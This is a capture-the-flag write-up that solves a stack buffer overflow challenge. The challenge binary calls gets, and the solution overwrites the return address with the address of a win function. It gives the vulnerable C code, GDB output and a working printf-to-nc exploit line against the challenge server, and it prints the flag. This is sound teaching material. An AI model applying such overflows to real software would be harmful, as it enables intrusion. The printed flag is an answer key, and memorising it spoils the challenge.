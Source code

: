 # RIP my bof
## Description
Okay so we have a bof, can we get it to redirect IP (instruction pointer) to something else?

If you get stuck liveoverflow [covers you again](https://old.liveoverflow.com/binary_hacking/protostar/stack3.html)!

`nc thekidofarcrania.com 4902`
## Hints
(None)
## Solution
1. The `gets` vulnerability is pointed out in the source code.
```c
void vuln() {
  char padding[16];
  char buff[32];

  memset(buff, 0, sizeof(buff)); // Zero-out the buffer.
  memset(padding, 0xFF, sizeof(padding)); // Mark the padding with 0xff.

  // Initializes the stack visualization. Don't worry about it!
  init_visualize(buff); 

  // Prints out the stack before modification
  visualize(buff);

  printf("Input some text: ");
  gets(buff); // This is a vulnerable call!

  // Prints out the stack after modification
  visualize(buff); 
}
```
2. Run the program and it's obvious we must overflow 60 bytes to then subsequently alter the return address.
```console
% nc thekidofarcrania.com 4902

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED
  return address MODIFIED
0xffea1b40 | 00 00 00 00 00 00 00 00 |
0xffea1b48 | 00 00 00 00 00 00 00 00 |
0xffea1b50 | 00 00 00 00 00 00 00 00 |
0xffea1b58 | 00 00 00 00 00 00 00 00 |
0xffea1b60 | ff ff ff ff ff ff ff ff |
0xffea1b68 | ff ff ff ff ff ff ff ff |
0xffea1b70 | c0 75 f1 f7 00 a0 04 08 |
0xffea1b78 | 88 1b ea ff 8b 86 04 08 |
Return address: 0x0804868b

Input some text:
```
3. Using GDB, we can see that the address of `win` is `0x08048586`.
```console
% gdb -q server
Reading symbols from server...
(No debugging symbols found in server)
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080483a8  _init
0x080483e0  setbuf@plt
0x080483f0  printf@plt
0x08048400  gets@plt
0x08048410  puts@plt
0x08048420  system@plt
0x08048430  __libc_start_main@plt
0x08048440  memset@plt
0x08048450  sprintf@plt
0x08048460  __gmon_start__@plt
0x08048470  _start
0x080484b0  _dl_relocate_static_pie
0x080484c0  __x86.get_pc_thunk.bx
0x080484d0  deregister_tm_clones
0x08048510  register_tm_clones
0x08048550  __do_global_dtors_aux
0x08048580  frame_dummy
0x08048586  win
0x080485b1  vuln
0x08048640  main
0x0804869a  __x86.get_pc_thunk.ax
0x0804869e  init_visualize
0x080486e1  visualize
0x08048890  __libc_csu_init
0x080488f0  __libc_csu_fini
0x080488f4  _fini
```
4. Overflow the buffer to insert the return address for `win`.
```console
% printf "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x86\x85\x04\x08\n" | nc thekidofarcrania.com 4902

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED
  return address MODIFIED
0xfff16320 | 00 00 00 00 00 00 00 00 |
0xfff16328 | 00 00 00 00 00 00 00 00 |
0xfff16330 | 00 00 00 00 00 00 00 00 |
0xfff16338 | 00 00 00 00 00 00 00 00 |
0xfff16340 | ff ff ff ff ff ff ff ff |
0xfff16348 | ff ff ff ff ff ff ff ff |
0xfff16350 | c0 e5 f3 f7 00 a0 04 08 |
0xfff16358 | 68 63 f1 ff 8b 86 04 08 |
Return address: 0x0804868b

Input some text: 
Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED
  return address MODIFIED
0xfff16320 | 61 61 61 61 61 61 61 61 |
0xfff16328 | 61 61 61 61 61 61 61 61 |
0xfff16330 | 61 61 61 61 61 61 61 61 |
0xfff16338 | 61 61 61 61 61 61 61 61 |
0xfff16340 | 61 61 61 61 61 61 61 61 |
0xfff16348 | 61 61 61 61 61 61 61 61 |
0xfff16350 | 61 61 61 61 61 61 61 61 |
0xfff16358 | 61 61 61 61 86 85 04 08 |
Return address: 0x08048586

CTFlearn{c0ntr0ling_r1p_1s_n0t_t00_h4rd_abjkdlfa}
timeout: the monitored command dumped core
```
